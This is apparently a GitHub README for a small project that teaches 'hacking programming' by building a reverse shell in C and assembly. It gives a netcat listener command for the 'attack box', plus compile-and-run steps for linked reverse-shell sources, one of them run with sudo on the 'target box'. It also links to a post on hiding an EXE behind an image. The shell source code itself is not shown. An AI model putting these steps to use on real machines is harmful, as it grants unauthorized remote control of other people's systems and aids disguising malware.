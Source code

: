 <h1>BISMIL</h1>
<h2>Pure way to start hacking programming in C and Assembly languages</h2>
<h3>ON ATTACK BOX RUN:</h3>
<pre>nc -lvp 444</pre>
<img src="https://raw.githubusercontent.com/dewebdes/bismil/master/1.jpeg">
<h3>ON TARGET BOX:</h3>
<ul>
  <li>We need an signal, like exe file or just a tcp request</li>
  <li><a href="https://github.com/dewebdes/bismil/blob/master/rsv.c">PURE C Sample</a><p>
    gcc rsv.c -o rsv
    
sudo ./rsv
    </p></li>
    <li><a href="https://github.com/dewebdes/bismil/blob/master/reverse_tcp.asm">ASM Sample</a><p>
    nasm -f elf32 reverse_tcp.asm && ld -m elf_i386 reverse_tcp.o -o reverse_tcp
    </p></li>
</ul>

<img src="https://raw.githubusercontent.com/dewebdes/bismil/master/2.jpeg">
<hr>
<h2><a href="https://www.linkedin.com/posts/kaveh-eyni-08060b59_protection-reverseengineering-snort-activity-6594048815320436736-WtVH">How to Prevent Reverse Shell?</a></h2>
<hr>
<h2><a href="https://www.linkedin.com/posts/kaveh-eyni-08060b59_viruses-exploitation-pictures-activity-6598750617307619328-g2Ke">Hide EXE Behind Image</a></h2>
